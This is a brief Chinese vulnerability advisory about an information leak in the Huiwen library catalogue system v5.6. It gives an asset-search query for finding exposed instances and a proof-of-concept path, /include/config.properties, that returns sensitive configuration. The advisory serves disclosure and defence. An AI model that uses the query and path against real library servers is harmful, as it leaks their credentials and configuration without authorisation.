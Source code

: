 # 汇文 图书馆书目检索系统 config.properties 信息泄漏漏洞

## 漏洞描述

汇文 图书馆书目检索系统 /include/config.properties 文件中包含敏感信息，攻击者可以直接访问获取信息

## 漏洞影响

<a-checkbox checked>汇文v5.6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="汇文软件-书目检索系统"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630045057643-890dd489-c6a9-45c5-aec6-74c6cf88175a.png)

验证POC

```python
/include/config.properties
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1630047202406-ff9604d5-fa69-4717-a916-ce2d0757d92c.png)